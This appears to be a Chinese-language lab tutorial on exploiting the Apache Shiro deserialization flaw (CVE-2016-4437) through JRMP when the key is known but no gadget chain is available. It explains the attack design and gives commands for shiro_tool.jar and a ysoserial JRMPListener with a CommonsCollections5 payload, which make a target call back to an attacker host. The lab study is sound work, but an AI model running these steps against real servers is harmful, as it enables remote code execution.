








# Shiro反序列化之有Key无链

**攻击者掌握了 Shiro 的加密密钥（key），但缺乏有效的利用链（Gadget Chain）** 来完成完整的攻击

参考文章

> https://mp.weixin.qq.com/s/MdCUfyaUCAa2M3P3H1NsGw

工具

> https://github.com/altEr1125/ShiroAttack2
>
> https://github.com/SummerSec/ShiroAttack2
>
> https://github.com/wyzxxz/shiro_rce_tool

## JRMP(Java远程方法协议)

###  JRMP介绍

JRMP指的是Java远程方法协议（Java Remote Method Protocol）。它是 Java 对象实现远程通信的基础技术，也是Java RMI（Remote Method Invocation，远程方法调用）的底层通信协议。借助JRMP，运行于某个Java虚拟机（JVM）中的对象能够调用另一个JVM中对象的方法，就如同调用本地对象的方法一样便捷。

### 有Key无链介绍

在shiro反序列化漏洞有key无链中的应用

> 在标准的反序列化利用中，我们的目标是直接在目标服务器上执行命令（如 `Runtime.exec("calc")`）。这需要一条完整的 **Gadget Chain**。
>
> 而在 **“有key无链”** 场景下，这个目标无法直接实现。JRMP 利用方式将目标转变为：
>
> **不追求在目标服务器上直接执行代码，而是让目标服务器作为一个 JRMP 客户端，向一个由攻击者控制的恶意 JRMP 服务端发起连接，并执行服务端返回的恶意对象。**
>
> 这个过程的本质是 **利用 RMI 的动态类加载机制**。

攻击架构图

### JRMPClient链攻击演示

#### 原理

- **A (靶场)**: 一台云主机（如阿里云/腾讯云ECS），运行Vulhub的Shiro漏洞环境。假设其公网IP为 `123.123.123.123`，开放端口 `8080`。
- **B (攻击机)**: 攻击者控制的另一台**具有公网IP的云主机**。这是整个攻击的核心。假设其公网IP为 `45.45.45.45`。它需要运行 `JRMPListener`并暴露端口。
- **C (本地电脑)**: 攻击者自己的笔记本电脑（如家里的Kali虚拟机），通常处于内网，没有固定的公网IP。运行shiro_rce_tool工具

**网络流向关键**：由于A和B都是云主机，有公网IP，它们之间可以**直接互通**。而C（你的电脑）只能主动连接A和B，但A和B无法主动连接回C（除非做内网穿透）。因此，所有需要**靶场A主动发起的连接**，都必须指向**攻击机B的公网IP**。

攻击链

#### 演示

启动`/vulhub/shiro/CVE-2016-4437`靶场

下载`https://github.com/wyzxxz/shiro_rce_tool`攻击

直接工具梭哈

`java -jar shiro_tool.jar http:/靶场IP:8080/login`

工具扫到

如图几条链,前面几条连通过上面链接另外两款工具也可以实现,此处选择4模拟`JRMPClient`来了解JRMP的利用. 方便后面学习有key无链

在另一台主机启通过`ysoserial`工具启动JRMP监听,

> java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6789 CommonsCollections5 "ping 域名"

启动服务后记得开放端口让靶场的主机能够访问

然后在`shiro_rce_tool`工具中

箭头位置填入ysoserial工具运行JRMP监听的主机ip:port. 

然后就可以查看dnslog

成功看到请求.

查看监听

可以看到确实有请求.

 也可以使用之前的`java-chains`工具来启动JRMP监听.

然后在`shiro_rce_tool`工具中写入ip和端口.有同样效果

